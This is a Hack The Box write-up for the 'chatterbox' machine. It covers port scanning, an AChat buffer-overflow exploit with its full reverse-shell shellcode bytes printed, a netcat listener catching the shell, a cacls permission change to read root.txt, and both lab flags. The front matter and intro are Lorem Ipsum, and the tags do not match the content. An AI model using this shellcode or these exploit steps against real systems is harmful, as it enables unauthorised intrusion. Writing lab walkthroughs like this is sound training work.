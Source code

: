 ```yaml
---
layout: single
title: chatterbox - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-chatterbox/chatterbox_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-chatterbox/chatterbox_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/chatterbox]# nmap -Pn -n -sCV 10.10.10.74 --open                                                                   (master✱)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:20 CET
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.69 seconds

Normal nmap scan finds nothing. Trying UDP returns the same, nothing.
[root:/git/htb/chatterbox]# nmap -sU -sV --version-intensity 0 -F -n 10.10.10.74                                                  (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:24 CET
  Nmap scan report for 10.10.10.74
  Host is up (0.035s latency).
  All 100 scanned ports on 10.10.10.74 are open|filtered

Expand the tcp scan by looking on all ports.
[root:/git/htb/chatterbox]# nmap -p- -T5 10.10.10.74                                                                              (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:33 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).
  Not shown: 65533 filtered ports
  PORT     STATE SERVICE
  9255/tcp open  mon
  9256/tcp open  unknown

Version and script scan to see if we can figure out anything more about the services:
[root:/git/htb/chatterbox]# nmap -sCV -p9255,9256 10.10.10.74                                                                     (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:38 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).

  PORT     STATE SERVICE VERSION
  9255/tcp open  http    AChat chat system httpd
  |_http-server-header: AChat
  |_http-title: Site doesn't have a title.
  9256/tcp open  achat   AChat chat system

[root:/git/htb/chatterbox]# curl 10.10.10.74:9255                                                                                 (master✱)
[root:/git/htb/chatterbox]# curl 10.10.10.74:9256                                                                                 (master✱)
  curl: (1) Received HTTP/0.9 when not allowed


2. Google for 'AChat enumerate port 9255 9256' and I come across 'achat reverse tcp exploit'. Downloading the files,
modify the payload-file to create a 'windows/shell_reverse_tcp' payload rather then meterpreter (no go in OSCP).

Generate the payload, edit the exploit-file with the new buf-data, and lastly change the server address (in the script)
to our victim.

[root:/git/htb/chatterbox]# ./AChat_Payload.sh                                                                                    (master✱)
  RHOST: 10.10.10.74
  LHOST: 10.10.14.5
  LPORT: 4488
  Found 1 compatible encoders
  Attempting to encode payload with 1 iterations of x86/unicode_mixed
  x86/unicode_mixed succeeded with size 774 (iteration=0)
  x86/unicode_mixed chosen with final size 774
  Payload size: 774 bytes
  Final size of python file: 3767 bytes
  buf =  b""
  buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
  buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
  buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
  buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
  buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
  buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
  buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
  buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
  buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
  buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x48\x68\x35\x32"
  buf += b"\x39\x70\x4b\x50\x6b\x50\x53\x30\x31\x79\x6b\x35\x50"
  buf += b"\x31\x55\x70\x4f\x74\x62\x6b\x42\x30\x6e\x50\x42\x6b"
  buf += b"\x6e\x72\x6a\x6c\x44\x4b\x6e\x72\x4e\x34\x34\x4b\x52"
  buf += b"\x52\x4d\x58\x7a\x6f\x74\x77\x4f\x5a\x4d\x56\x6d\x61"
  buf += b"\x59\x6f\x74\x6c\x6f\x4c\x70\x61\x43\x4c\x6c\x42\x4c"
  buf += b"\x6c\x6f\x30\x35\x71\x78\x4f\x7a\x6d\x4d\x31\x56\x67"
  buf += b"\x57\x72\x4c\x32\x52\x32\x51\x47\x62\x6b\x62\x32\x4a"
  buf += b"\x70\x62\x6b\x4e\x6a\x4d\x6c\x44\x4b\x30\x4c\x4e\x31"
  buf += b"\x42\x58\x38\x63\x6d\x78\x59\x71\x47\x61\x70\x51\x44"
  buf += b"\x4b\x52\x39\x4f\x30\x6d\x31\x78\x53\x64\x4b\x51\x39"
  buf += b"\x7a\x78\x69\x53\x6e\x5a\x6d\x79\x62\x6b\x4d\x64\x64"
  buf += b"\x4b\x6d\x31\x49\x46\x50\x31\x59\x6f\x54\x6c\x76\x61"
  buf += b"\x36\x6f\x6c\x4d\x59\x71\x49\x37\x6e\x58\x39\x50\x43"
  buf += b"\x45\x4c\x36\x6c\x43\x33\x4d\x6c\x38\x6f\x4b\x73\x4d"
  buf += b"\x6b\x74\x64\x35\x6b\x34\x72\x38\x44\x4b\x52\x38\x4d"
  buf += b"\x54\x7a\x61\x38\x53\x50\x66\x72\x6b\x4c\x4c\x70\x4b"
  buf += b"\x34\x4b\x61\x48\x4b\x6c\x39\x71\x68\x53\x54\x4b\x6d"
  buf += b"\x34\x32\x6b\x79\x71\x78\x50\x61\x79\x4f\x54\x6f\x34"
  buf += b"\x6d\x54\x61\x4b\x6f\x6b\x63\x31\x42\x39\x50\x5a\x52"
  buf += b"\x31\x49\x6f\x69\x50\x4f\x6f\x31\x4f\x51\x4a\x64\x4b"
  buf += b"\x6a\x72\x6a\x4b\x32\x6d\x6f\x6d\x72\x48\x6c\x73\x6d"
  buf += b"\x62\x4b\x50\x6d\x30\x73\x38\x53\x47\x70\x73\x70\x32"
  buf += b"\x31\x4f\x50\x54\x72\x48\x6e\x6c\x50\x77\x6e\x46\x69"
  buf += b"\x77\x4b\x4f\x67\x65\x57\x48\x64\x50\x6a\x61\x69\x70"
  buf += b"\x59\x70\x6b\x79\x66\x64\x4f\x64\x6e\x70\x52\x48\x4d"
  buf += b"\x59\x75\x30\x62\x4b\x69\x70\x59\x6f\x36\x75\x42\x30"
  buf += b"\x32\x30\x72\x30\x6e\x70\x6d\x70\x4e\x70\x4d\x70\x30"
  buf += b"\x50\x52\x48\x7a\x4a\x4a\x6f\x57\x6f\x67\x70\x59\x6f"
  buf += b"\x47\x65\x43\x67\x70\x6a\x4a\x65\x71\x58\x4a\x6a\x69"
  buf += b"\x7a\x6a\x6e\x59\x75\x32\x48\x6b\x52\x6b\x50\x6b\x61"
  buf += b"\x33\x58\x34\x49\x78\x66\x70\x6a\x6e\x30\x42\x36\x51"
  buf += b"\x47\x6f\x78\x35\x49\x54\x65\x30\x74\x63\x31\x79\x6f"
  buf += b"\x36\x75\x62\x65\x69\x30\x73\x44\x7a\x6c\x79\x6f\x70"
  buf += b"\x4e\x6a\x68\x44\x35\x5a\x4c\x30\x68\x38\x70\x57\x45"
  buf += b"\x34\x62\x71\x46\x4b\x4f\x48\x55\x61\x58\x33\x33\x52"
  buf += b"\x4d\x4f\x74\x6b\x50\x32\x69\x69\x53\x71\x47\x50\x57"
  buf += b"\x71\x47\x6c\x71\x79\x66\x4f\x7a\x4b\x62\x32\x39\x31"
  buf += b"\x46\x47\x72\x4b\x4d\x62\x46\x48\x47\x4d\x74\x4d\x54"
  buf += b"\x6f\x4c\x69\x71\x6b\x51\x72\x6d\x4e\x64\x6c\x64\x6c"
  buf += b"\x50\x67\x56\x49\x70\x6d\x74\x42\x34\x4e\x70\x6f\x66"
  buf += b"\x71\x46\x4f\x66\x61\x36\x52\x36\x6e\x6e\x62\x36\x62"
  buf += b"\x36\x6e\x73\x4e\x76\x53\x38\x30\x79\x58\x4c\x6d\x6f"
  buf += b"\x74\x46\x4b\x4f\x68\x55\x62\x69\x37\x70\x6e\x6e\x62"
  buf += b"\x36\x6f\x56\x4b\x4f\x4c\x70\x61\x58\x4d\x38\x54\x47"
  buf += b"\x6b\x6d\x33\x30\x6b\x4f\x66\x75\x67\x4b\x49\x50\x4d"
  buf += b"\x4d\x4d\x5a\x59\x7a\x61\x58\x76\x46\x34\x55\x77\x4d"
  buf += b"\x53\x6d\x39\x6f\x36\x75\x6f\x4c\x5a\x66\x51\x6c\x5a"
  buf += b"\x6a\x71\x70\x6b\x4b\x79\x50\x54\x35\x5a\x65\x55\x6b"
  buf += b"\x31\x37\x6b\x63\x31\x62\x72\x4f\x71\x5a\x79\x70\x51"

[root:/git/htb/chatterbox]# python AChat_Exploit.py                                                                               (master✱)
  [+] BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER

[root:/git/htb/chatterbox]# rlwrap nc -lvnp 4488                                                                                  (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.5] from (UNKNOWN) [10.10.10.74] 49161
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32> whoami
    chatterbox\alfred


3. Grab user.txt

C:\Users\Alfred\Desktop> type user.txt
  02c94ad2f3a9d10f7f327b895249a2f8

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Once we have a reverse shell as Alfred, we notice that we got read access to the \Users\Administrator directory - usually
the users don't have permission to enter this folder.

C:\Users\Administrator\Desktop> type root.txt
Access is denied.

Unfortunately we can't just print root as of yet. But maybe the privileges of the Admin dir is a good place to start.

C:\Users\Administrator\Desktop> dir root.txt /q
  03/26/2021  07:51 AM                34 CHATTERBOX\Alfred      root.txt


C:\Users\Administrator\Desktop> cacls root.txt /G Alfred:R
  Are you sure (Y/N)? y
  processed file: C:\Users\Administrator\Desktop\root.txt

C:\Users\Administrator\Desktop> type root.txt
  efd540d3337ebc9d2682bec22ab89f45


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

AChat Reverse TCP Exploit:
  https://github.com/EDB4YLI55/achat_reverse_tcp_exploit

File ownership Win7:
  https://superuser.com/questions/691578/how-to-display-change-the-owner-of-a-file-on-windows-7
